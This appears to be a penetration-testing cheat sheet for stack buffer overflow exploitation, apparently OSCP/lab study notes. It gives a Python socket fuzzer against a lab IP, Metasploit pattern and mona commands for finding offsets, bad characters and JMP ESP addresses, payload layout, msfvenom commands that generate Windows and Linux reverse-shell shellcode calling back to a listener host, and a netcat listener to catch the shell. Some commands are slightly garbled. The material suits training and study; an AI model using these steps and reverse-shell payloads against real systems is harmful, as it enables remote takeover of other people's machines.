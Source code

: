 # Buffer Overflow

## Spiking

```
nc -nv IP PORT
```

Find the available commands and start spiking to find vulnerable command

```
generic_send_tcp HOST PORT stats.spk 0 0
```

![](https://gblobscdn.gitbook.com/assets%2F-M51QhT21xpEfTWU4ttG%2F-M8cReh2zkyhBACCl7vO%2F-M8cU83zQipL95cfqvQC%2Fimage.png?alt=media&token=1bc70c72-77b6-4e57-9960-d9a48014bb25)

## Fuzzing

![](https://gblobscdn.gitbook.com/assets%2F-M51QhT21xpEfTWU4ttG%2F-M8cReh2zkyhBACCl7vO%2F-M8cTEGEamXhaJImCMqC%2Fimage.png?alt=media&token=ff09d187-8820-477d-95cb-f4d33e8e481d)

```python
#!/usr/bin/python
import socket

buffer = ["A"]

counter = 100

while len(buffer) <=30:
    buffer.append("A" * counter)
    counter = counter + 100

for string in buffer:
    print "Fuzzing with %s bytes" % len(string)
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    connect = s.connect(('10.10.153.41',31337))
    s.send(string + '\r\n')
    data = s.recv(1024)
    s.close()
```

## Finding the Offset

```
/usr/share/metasploit-framework/tools/exploits/pattern_create.rb -l CRASHBYTES
```

Copy the output and paste value into the buffer variable in the script.

Run the script and find the EIP overwritten value (Ex: 35724134)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```

Get exact match for the offset

Or using mona

```
!mona findmsp -distance CRASHBYTES
```

## Overwrite the EIP

&gt; [*] Exact match at offset 524


Great! Now our payload will be as follow "A"*524 + "B"*4 + badchars. Updated script gives following result:

## Finding bad characters

```
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

The first of all we should remove from our payload **\x00**(null byte - break everything what is next) and **\x90** (No Operation - do nothing)

Add badchars to script right after the EIP

![](https://gblobscdn.gitbook.com/assets%2F-M51QhT21xpEfTWU4ttG%2F-M8cUd37vodaipUY5pEl%2F-M8cZ3BlmMhRhEf21j5d%2Fimage.png?alt=media&token=a97cb5b0-b567-4c5f-af74-42e332f553c9)

Follow ESP Hex dump and see what values are missing. (In imunity debugger)

![](https://gblobscdn.gitbook.com/assets%2F-M51QhT21xpEfTWU4ttG%2F-M8cUd37vodaipUY5pEl%2F-M8cZVYS6eoVCRqjnlF3%2Fimage.png?alt=media&token=6f8de275-e382-4a3f-b66c-95ec35a29408)

Find the bad chars and keep removing them from the script and repeating the process.

Or making use of mona simply run the following command

```
!mona bytearray -b "\x00"
```

Run the script and take not of the memory address to which the ESP register points. Then use it in the following command:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0124FA18
```

Not all of these might be bad chars! Sometimes bad chars cause the next byte to get corrupted as well, or even affect the rest of the string. Use trial and error.

## Finding the right ESP jump instruction

Import mona modules into Immunity debugger

[GitHub - corelan/mona: Corelan Repository for mona.py](https://github.com/corelan/mona)

In Immunity debugger
```
!mona jmp -r esp
Or browse Window->Log Data
```

From this command retrieve the JMP address (080414C3). 
Convert big endian into little endian.
080414C3 --> c3140408

**Alternatively**

In Immunity debugger
```
!mona modules
```

Find modules with protection settings set to false and attatched to the process.
(essdunc.dll in this case)

HEX Code equivalent to JMP ESP is FFE4
With this information we can find the JMP address in the dll

```
!mona find -s "\xff\xe4" -m essdunc.dll
```

Retrieve the return addresses for the JMP address

Now, we find our **JMP ESP** address - 311712F3
 So, our payload will be as follow: **"A" * 2003 + "\xf3\x12\x17\x31" + "\x90" * 32 + shell_code.**.
 Also add a few \x90 NOP values before the shell code.
 Note that the JMP address is in reverse

## Generate shell code

Test by first trying to open the calculator
```
msfvenom -p windows/exec -b "\x00" -f python --var-name shellcode CMD=calc.exe EXITFUNC=thread
```

For windows boxes:
```
 msfvenom -p windows/shell_rever se_tcp LHOST= LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

  msfvenom -p windows/shell_reverse_tcp LHOST= LPORT=4444 EXITFUNC=thread -f python c -a x86 -b "\x00\x0a"
```

For Linux box:
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.8.26.76 LPORT=9001 -f c -a x86 --platform linux -b "\x00" -e x86/shikata_ga_nai
```
Note the bad characters. Copy the payload result. Also available: linux/x86/shell_reverse_tcp.

![](https://gblobscdn.gitbook.com/assets%2F-M51QhT21xpEfTWU4ttG%2F-M8cUd37vodaipUY5pEl%2F-M8cdIb2OHPn2ocrmEbE%2Fimage.png?alt=media&token=4139ddff-3288-4f24-88e8-028dec2f975f)

Lastly run the exploit and listen for connections:

```
nc -nvlp 4444
```

## Additional reading

[dostackbufferoverflowgood/dostackbufferoverflowgood_tutorial.pdf at master · justinsteven/dostackbufferoverflowgood · GitHub](https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood_tutorial.pdf)
